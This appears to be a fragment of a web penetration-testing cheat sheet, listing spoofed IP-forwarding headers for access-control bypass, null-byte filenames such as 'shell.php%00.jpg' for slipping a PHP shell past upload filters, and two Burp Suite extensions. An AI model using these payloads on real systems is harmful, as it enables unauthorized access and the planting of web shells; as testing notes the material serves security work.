 X-Header

```bash
Accept: application/json, text/javascript, */*; q=0.01 
Host : localhost
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

NullByte

```bash
file.jpg%00shell.php
shell.php%00file.jpg
shell.php%00.jpg
```

---

## **Burp Extenders**

Extension|Description
---|----
`Retire.js`|[find vulnerable JavaScript libraries](https://github.com/PortSwigger/retire-js)
`Autorize`|[find privileges escalations by replaying admin requests as a simple user](https://portswigger.net/bappstore/f9bbac8c4acf4aefa4d7dc92a991af2f)

